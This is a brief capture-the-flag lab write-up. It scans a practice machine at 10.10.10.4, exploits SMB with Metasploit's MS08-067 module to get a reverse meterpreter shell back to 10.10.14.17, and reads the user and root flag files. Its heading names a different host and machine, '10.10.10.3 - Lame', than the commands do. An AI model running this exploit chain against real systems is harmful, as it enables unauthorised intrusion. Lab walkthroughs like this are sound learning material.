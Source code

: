# ****10.10.10.3 - Lame****

```bash
rustscan -a 10.10.10.4
```
![image](https://github.com/lufffe/Writeups/assets/90646635/d5a20a01-fc19-4129-b59f-8d1568842e27)


```bash
nmap -A -p 135,139,445 10.10.10.4
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ecfa94ea-8cee-4817-9c38-08353cc9988c)

```bash
nmap -v -script smb-vuln* -p 139,445 10.10.10.4
```
![image](https://github.com/lufffe/Writeups/assets/90646635/eaecec0a-da46-4baa-9290-71ec247b74b3)

```bash
msfconsole
```
![image](https://github.com/lufffe/Writeups/assets/90646635/75399ce6-7f11-4306-a474-0ee600582817)

```bash
search ms08-067
```

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.10.10.4
```

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > set lhost 10.10.14.17
```

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > exploit
```

```bash
meterpreter > pwd
```

C:\Documents and Settings\John\Desktop

```bash
meterpreter > cat user.txt
```

```bash
meterpreter > pwd
```

C:\Documents and Settings\Administrator\Desktop

```bash
meterpreter > cat root.txt
```
